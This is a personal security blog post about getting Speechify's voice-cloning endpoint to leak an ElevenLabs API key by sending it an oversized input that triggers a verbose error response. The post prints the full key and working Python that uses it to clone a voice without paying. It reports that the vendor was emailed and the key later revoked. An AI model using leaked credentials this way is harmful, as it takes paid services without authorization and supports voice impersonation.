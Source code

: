 ```yaml
---
title: Speechify voice cloning API key leakage
layout: post
---
```


![speechify-logo](/assets/speechify-logo.png)

# Introduction
Yesterday, I came across a video on Youtube of a guy using an AI Voice cloning service to impersonate and troll people on the popular GTA5 modification framework known as FiveM.

It was pretty funny to watch because he was doing this on roleplay servers and, as you may already know, there are rules to follow and people tend to get into arguments frequently. 

- [EDITING clips with Ai to get an ADMIN FIRED! @parkerrYT](https://youtu.be/yvLb6gkPYgw?si=zLY_ITZl_RtUQZnT)

Put simply, he would record a sample of the voice to clone and use the ElevenLabs voice cloning service to make them say things they never meant to, of course revealing in the end how thing really went.

# ElevenLabs AI Voice cloning
Next thing you know, I am looking at the plans that ElevenLabs offers, I wanted to play with it a little and see how accurate it really is but didn't feel like spending the 22$ (at the time), and started looking for an alternative.

![elevenlabs-prices](/assets/elevenlabs-prices.png)

# Speechify AI Voice cloning
The alternative I was looking for turned out to be Speechify as they offer a free trial version of the service, the only issue with it is that you can't change the text without upgrading your plan, making it look useless at first.

![speechify-interface](/assets/speechify-interface.png)

After playing a little with the text I noticed that the only character you are allowed to add are spaces, adding any other character would result in an annoying `upgrade for full access` message.

![annoying-message](/assets/annoying-message.png)

The next thing I tried was adding a lot of spaces and seeing how the endpoint would reply, after the text reaches the size of 5500 characters the endpoint replies with code 500 and greets us with the following data.

```
HTTP/2 500 Internal Server Error
Cache-Control: public, max-age=0, must-revalidate
Content-Type: application/json; charset=utf-8
Date: Tue, 05 Dec 2023 22:23:27 GMT
Etag: "qexsok88sj5k7"
Server: Vercel
Strict-Transport-Security: max-age=63072000
X-Matched-Path: /api/tts/clone
X-Vercel-Cache: MISS
X-Vercel-Id: fra1::iad1::jwvvj-1701815001593-c964271a4111
Content-Length: 7207

{
  "message": "Request failed with status code 400",
  "name": "AxiosError",
  "stack": "at ClientRequest.emit (node:domain:489:12)\n at HTTPParser...",
  "config": {
    "headers": {
      "Accept": "application/json, text/plain, */*",
      "Content-Type": "application/json",
      "xi-api-key": "a67a36e2011cf31e21343adb66f46ca2",
      "User-Agent": "axios/1.4.0",
      "Content-Length": "5611",
      "Accept-Encoding": "gzip, compress, deflate, br"
    },
    "params": {
      "optimize_streaming_latency": 3
    },
    "responseType": "stream",
    "method": "post",
    "url":"https://api.elevenlabs.io/v1/text-to-speech/voice_id"
  },
  "code": "ERR_BAD_REQUEST",
  "status": 400
}
```

Great! an ElevenLabs API key seems to have been leaked, now all that's left to do is read the ElevenLabs documentation and use the api key to access the voice cloning service using their python library.

```python
from elevenlabs import clone, generate, play
from elevenlabs import set_api_key

api_key = 'a67a36e2011cf31e21343adb66f46ca2'
set_api_key(api_key)

voice = clone(
  name="nekka",
  files=["./sample.mp3"],
)

audio = generate(text="hi! how you doing?",
                 voice=voice, 
                 model='eleven_multilingual_v2')

audio_file = open('output.mp3', 'wb')
audio_file.write(audio)
audio_file.close()
```

After running the script we get our `output.mp3` file containing the result!

![output-file](/assets/voice-clone-files.png)

# Conclusion
After finding out about this, I sent them an email however I never received a reply. However, as of now, it appears that the leakage has been resolved, and the API key has been invalidated.